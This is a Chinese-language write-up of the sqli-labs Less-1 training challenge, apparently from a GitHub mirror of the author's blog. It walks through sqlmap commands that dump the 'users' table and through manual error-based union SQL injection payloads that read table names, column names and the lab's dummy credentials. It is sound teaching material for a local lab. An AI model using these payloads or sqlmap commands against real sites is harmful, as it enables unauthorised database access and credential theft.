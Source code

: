 ## [[sqli-labs](https://github.com/Audi-1/sqli-labs)] [[Less 01 - Error Based Single Quotes](http://127.0.0.1/Less-1/)] [[解题报告](http://exp-blog.com/2019/06/02/pid-3882/)]

------

## 题目分析


乍一看似乎无从入手，其实注意看提示即可，提示是以数值型的 `id` 作为请求参数。

![](http://exp-blog.com/wp-content/uploads/2019/06/0beda8f79e5de7fee20a62877a2a89e0.png)

于是尝试在 url 中追加参数 `?id=1` ，可以看到页面回显了数据库的查询内容：

![](http://exp-blog.com/wp-content/uploads/2019/06/a4c9607a6d1c6e8552e5a737360f74ef.png)

改变 `id` 的值，可以查到不同的内容，推测此处是注入点：

![](http://exp-blog.com/wp-content/uploads/2019/06/f7141c59509a1036c6ad5b15f6a62774.png)

## 使用 sqlmap 注入（不推荐）

先尝试下使用 sqlmap 解题（非必要不推荐这种解题方式，因为对于学习 sqli 毫无帮助）。

先通过以下命令查询所有数据库：

```shell
sqlmap.py -u http://ctf.env/sqli-labs/Less-1/?id=1 --dbs
```

得到 6 个数据库：

```shell
available databases [6]:
[*] challenges
[*] information_schema
[*] mysql
[*] performance_schema
[*] security
[*] sys
```

![](http://exp-blog.com/wp-content/uploads/2019/06/42a36ce3e301ed22451084436692b87f.png)

然后通过以下命令查询到当前数据库为 `security`

```shell
sqlmap.py -u http://ctf.env/sqli-labs/Less-1/?id=1 --current-db
```

![](http://exp-blog.com/wp-content/uploads/2019/06/c91c61fc2d9cf066c790a712eea8dd2e.png)

再通过以下命令查询到 `security` 数据库的所有表名：

```shell
sqlmap.py -u http://ctf.env/sqli-labs/Less-1/?id=1 -D security --tables
```

![](http://exp-blog.com/wp-content/uploads/2019/06/813a6833d6abfffdea1057c749a1fdf2.png)

得到 4 个表名：

```shell
Database: security
[4 tables]
+----------+
| emails   |
| referers |
| uagents  |
| users    |
+----------+
```

很明显，`users` 表应该就是我们的目标表，通过以下命令把整个表的数据 dump 下来：

```shell
sqlmap.py -u http://ctf.env/sqli-labs/Less-1/?id=1 -D security -T users --dump
```

成功脱裤，完成挑战：

```shell
Database: security
Table: users
[13 entries]
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
| 1  | Dumb     | Dumb       |
| 2  | Angelina | I-kill-you |
| 3  | Dummy    | p@ssword   |
| 4  | secure   | crappy     |
| 5  | stupid   | stupidity  |
| 6  | superman | genious    |
| 7  | batman   | mob!le     |
| 8  | admin    | admin      |
| 9  | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | admin4     |
+----+----------+------------+
```

![](http://exp-blog.com/wp-content/uploads/2019/06/6f129d954ebe009d8915cd6f643c98d5.png)


## 手工注入（推荐使用 Burp 辅助）

注意标题给出了两个提示：

- Error Based
- Single Quotes

那么尝试在参数后用单引号闭合 `?id=1'` 看下效果：

![](http://exp-blog.com/wp-content/uploads/2019/06/1600b933fdd3eb0378baad57cff94a62.png)

页面报错，而且从错误信息中，我们注意到两个关键信息：

- 数据库类型是 mysql
- 错误位置是 `'1'' LIMIT 0,1` （其中 `1'` 是我们输入的内容，不难推测**输入值会自动被单引号包围**）

结合异常信息，猜测这条 SQL 应该形如：

```sql
$sql = "select username, password from user where id = '" + $_GET[id] + "' LIMIT 0,1"
```

这种 SQL 要注入其实不难：

- 先闭合单引号
- 然后用 `union` 关联查询其他表的信息 （列数可以通过 `order by` 测试，本题测试到是 3 列）
- 最后再通过行注释处理掉末尾的 `LIMIT` 即可 （ MySql 的行注释有两种方式：`#` 和 `-- `，注意**后一种方式末尾至少有一个空格** ）

于是可以构造 payload 为 ：`?id=1' union select 1, 2, 3 #` 或 `?id=1' union select 1, 2, 3 --+`

> 注意，上面的 payload 只适用于 Burp Suite。若通过浏览器注入，需要对几个特殊字符做 URL 编码：空格要编码成 `%20` ，`#` 要编码成 `%23` 。特别地，`-- ` 刚好在 URL 末尾，而末尾的空格会被浏览器自动删掉，即使编码也不会保留，此时需要利用 URL 把 `+` 识别为空格的特性，使用 `--+` 代替。

![](http://exp-blog.com/wp-content/uploads/2019/06/001ed9c5b8d6d4d1a14ca43578f2cacd.png)

可以看到第 2、3 列被回显到页面，因此可以利用这两列查询我们想要的信息。

例如查询 mysql 的版本以及当前数据库，可以构造 payload 如下：

```sql
?id=1' union select 1, version(), database() #
```

![](http://exp-blog.com/wp-content/uploads/2019/06/96ee8e9e407a71b0e81c054d32748fa9.png)

而通过这个 payload 可以查询当前数据库下的所有表名：

```sql
?id=1' union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema = (select database()) #
```

> 这里用到 mysql 的 `group_concat` 函数，其作用是把某一列的所有行值串接成一个字符串。而 `information_schema` 是系统表，可以查到数据库中的所有表结构。

![](http://exp-blog.com/wp-content/uploads/2019/06/a9aaf684bd177c80f3f81240ae4d7826.png)

从表名推测，`users` 就是我们的目标表，再次构造 payload 查询该表的表结构：

```sql
?id=1' union select 1, 2, group_concat(column_name) from information_schema.columns where table_name = 'users' #
```

![](http://exp-blog.com/wp-content/uploads/2019/06/e15243105d75129c7cd80c781fdbac61.png)

找到目标列名 `username` 和 `password` ，最后构造如下 payload 实现脱裤，完成挑战：

```sql
?id=1' union select 1, group_concat(username), group_concat(password) from users #
```

![](http://exp-blog.com/wp-content/uploads/2019/06/477288ec8b4770fed23d8a069699491f.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
